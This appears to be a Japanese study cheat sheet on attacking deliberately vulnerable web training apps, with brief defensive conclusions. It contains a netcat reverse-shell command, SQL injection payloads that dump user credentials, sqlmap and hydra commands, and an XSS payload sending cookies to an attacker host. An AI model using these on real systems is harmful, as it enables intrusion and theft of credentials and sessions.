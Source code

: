 # Web アプリケーション侵入

## hydra で Web ログイン画面をブルートフォース

https://github.com/vanhauser-thc/thc-hydra

```shell
hydra <targetIP> http-post-form "/owaspbricks/login-3/index.php:username=^USER^&password=^PASS^&Login=submit:Wrong user name or password." -L http_default_users.txt -P http_default_pass.txt
```

## コマンドインジェクション（netcat でシェルを起動）

### １．攻撃マシンで Listen

```shell
nc -lvp <port>
```

### ２．コマンドインジェクションで攻撃マシンに接続

```shell
nc.traditional -e /bin/bash <ip> <port>
```

### 回数指定で ping を実行する（コマンドインジェクションのとき永久に ping し続けないように）

```shell
ping <ip> -c 3
```

## SQL インジェクション

information_schema を使ったスキーマ取得（SQL 標準だが Oracle は構造が異なる。SQLite には機能がない）

### DB 名

```sql
1' union select schema_name, 2 from information_schema.schemata #
```

### テーブル名

```sql
1' union select table_name, 2 from information_schema.tables where TABLE_SCHEMA <> 'information_schema' #
```

### 特定テーブルの列名

```sql
1' union select column_name, column_type from information_schema.columns where table_name = 'users' #
```

### 列数が限られている場合に、多くの情報を出力する例

```sql
1' union select concat(user_id, '-', first_name, ' ', last_name), concat(user, ':', password) from dvwa.users #
```

## SQLmap

### URL にパラメータが含まれる例

```shell
sqlmap -u "http://192.168.11.12/mutillidae/index.php?page=user-info.php&username=aaa&password=bbb&user-info-php-submit-button=View+Account+Details" -p username --schema
```

### POST データにパラメータが含まれる例

```shell
sqlmap -u "http://192.168.11.12/WebGoat/attack?Screen=71&menu=1100" \
--method POST \
--data "employee_id=101&password=aaa&action=Login" \
--cookie "acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada; PHPSESSID=iaml1rtui5cfcjvsrc504g0t6; JSESSIONID=FEA4D26D5A2B7C42D53D2216D29D7B3" \
--header "Authorization: Basic d2ViZ29hdDp3WJnb2F0" \
--level 1 --risk 1 \
-p "password"
```

## XSS

### Cookie を外部に送信する例

```js
<script>document.write('<img src="http://<attacker ip>:8888/' + document.cookie + '">')</script>
```

### 対策

- 全てのユーザー入力をエンコードする（最重要）
- Cookie 作成時、HttpOnly 属性を付ければ、js から Cookie にアクセスできなくなる
- HTTP ヘッダーの CSP 設定で、img の外部取得を禁止できる

```http
Content-Security-Policy: img-src 'self';
```

### 確認用に簡易 Web サーバーを起動

```shell
python -m http.server 8888
```

### HTML コードの変更

```html
<img src="x" onerror="document.body.innerHTML='<h1>Hacked</h1>'" />
```

## xsser

XSS 脆弱性を自動的に検出するツール  
https://github.com/epsylon/xsser

```shell
xsser -u http://192.168.11.12 -g /bodgeit/search.jsp?q=XSS
```

## セキュリティ視点の結論

- インジェクション系の対策は、ユーザー入力を全て URL エンコードする。これに尽きる。
- Web サーバー上に機密ファイルを置かないこと
- Cookie に HttpOnly 属性を付けたらスクリプトから参照できない
- img の外部取得を禁止するのもセキュリティ的に有効
